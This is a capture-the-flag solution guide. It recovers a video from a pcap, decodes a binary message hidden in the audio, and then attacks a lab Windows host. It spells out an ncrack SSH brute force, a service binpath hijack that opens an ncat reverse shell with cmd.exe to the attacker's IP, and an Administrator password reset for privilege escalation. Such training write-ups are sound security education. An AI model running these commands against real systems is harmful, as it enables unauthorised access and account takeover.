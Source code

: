 # Can't You Hear Me Knocking

_Solution Guide_

## Overview

In this challenge, you will recover a video from a pcap file, find the hidden message, and exploit a system to find the answers to the questions. This solution guide is organized by question. Question 1 is divided into two parts. In **part 1**, you'll recover the video from the pcap file found on the `analyst` system's Desktop. In **part 2**, you'll separate the audio from the video and examine the audio track.

## Question 1

*What is the "from IP" given in the hidden message?*

### Part 1: Recover the video from the pcap file

1. Open the pcap file (**Suspect.pcapng**) using Wireshark.
2. Filter by **udp** because you are looking for a streaming video.
3. Go to **Statistics**, **Conversations**. This will help find the transfer. 
4. On the **Conversations UDP** tab, sort on the  **Bytes** or **Packets** column. There is a 15 M transfer between two IP addresses on port 1099.

<img src="img/c49-img1.png">

5. Filter on **udp.port==1099**. The first packet sent is a Matroska (`.mkv`) video file.

<img src="img/c49-img2.png">

5. Right-click any packet and select **Follow > UDP Stream**.
6. Change the **Show data as** dropdown to **Raw**, then **Save as...** *AnyName*.mkv.
7. Watch the video to verify it is the file you're looking for.

<img src="img/c49-img3.png">

### Part 2: Separate audio from video and review

1. In **VLC media player** select **Media, Convert/Save**. Drag the `mkv` file into the Open Media window and select **Convert/Save**.
2. We want to capture an uncompressed audio format, so: for **Profile**, select the **Audio - FLAC**. In **Destination file:**, choose a *filename*.flac and click **Start**.
3. Open the new `.flac`file in **Audacity**.
4. Look at the wave form display. Notice there are a series of loudness spikes at regular intervals.  

<img src="img/c49-img4.png">

5. Open the **Spectrogram** view. It shows the spikes are a much higher frequency tone than the rest of the audio in the file. Examining the frequency analysis (highlight the audio, **Analyze**, **Plot Spectrum**) shows sound at the top of the human hearing range (20,000 Hz).

<img src="img/c49-img5.png">

6. Zooming in on the spikes shows they are in intervals of eight spikes, with a gap in between each group of eight. This tells you it's binary. 
7. Using the left and right channels (the top and bottom of the display respectively) to determine **0/1** will give you the following binary string:
**01010100 01101111 01101011 01100101 01101110 00100000 01100001 01110100 00100000 00110001 00110000 00101110 00110101 00101110 00110101 00101110 00110001 00110000 00110001 00100000 01100001 01100011 01100011 01100101 01110011 01110011 00100000 01100110 01110010 01101111 01101101 00100000 00110001 00110000 00101110 00110101 00101110 00110101 00101110 00110110 00110101**

8. Converting this string to text reveals the secret message and the answer to Question 1: `10.5.5.65`.

<img src="img/c49-img6.png">

## Question 2

*What is the text value in the token file at C:\token\token\token1*

1. Change the `analyst` VM IP address to **10.5.5.65**.
2. Run `sudo nmap` against **10.5.5.101**. Several services running on open ports are revealed. 

<img src="img/c49-img7.png">

3. Crack the username and password with the supplied wordlist (**wordlist.txt**). For the purposes of this solution guide, we'll crack the ssh login.

```
ncrack -U /home/user/Desktop/wordlist.txt -P /home/user/Desktop/wordlist.txt 10.5.5.101:22
```
4. Once credentials are obtained, you can access **10.5.5.101**. We'll use `rdesktop`. There is a token file at **C:\token\token**\.  This folder is also a network share.  However, you can't open the token.

5. Escalate privilege to an admin account to get the token. Open a Command Prompt (**run as administrator**) and use the **Sysinternals AccessCheck** app found in `C:\ProgramData\chocolatey\bin\ ` to find an unsecured service. Run: `accesschk.exe -uwcqv "spokesman" *`

<img src="img/c49-img8.png">

6. Back on the `analyst` VM, open a `netcat` listener (we're using port 99): `nc -klp 99`
7. On the *Windows machine*, in your Command Prompt, point the service to open a reverse shell:

```
sc config service2 binpath="C:\Program Files (x86)\Nmap\ncat.exe 10.5.5.65 99 --exec cmd.exe"
```
8. Start the service: `net start service2`. This gives you a Command Prompt in the terminal where the `netcat` listener is running. The service will timed out so you need to work quickly.

<img src="img/c49-img9.png">9. In the reverse shell, reset the **Administrator** account password: `net user Administrator NewPass`

<img src="img/c49-img10.png">

​	Alternatively, you could add the **spokesman** account to the Administrators group: 

​	`net localgroup Administrators spokesman /add`

10. With Administrator access, ssh in with the credentials and access the token file.<img src="img/c49-img11.png">
